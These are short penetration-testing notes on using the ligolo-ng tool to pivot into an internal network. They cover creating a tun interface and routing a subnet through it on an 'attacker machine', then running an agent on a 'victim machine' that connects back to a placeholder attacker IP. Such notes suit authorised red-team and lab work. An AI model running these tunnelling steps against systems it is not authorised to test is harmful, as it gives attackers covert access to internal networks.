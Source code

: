 https://github.com/Nicocha30/ligolo-ng
# Attacker machine
## Create new tun interface:
```bash
sudo ip tuntap add user kali mode tun ligolo
```
```bash
sudo ip link set ligolo up
```
```bash
ip a show
```
```bash
sudo ip route add $(IP_ADDRESS)/24 dev ligolo
```
i.e.
```bash
sudo ip route add 192.168.1.0/24 dev ligolo
```
Can create self signed certs with -selfcert but -autocert should be used as we have internet access.

Use proxy from this machine:
```bash
ligolo-proxy -selfcert/-autocert
```
When the connection is receieved:
```
session
```
```
1
```
```
start
```
# Victim machine
```
./agent -connect [ATTACKER_IP]:11601
```
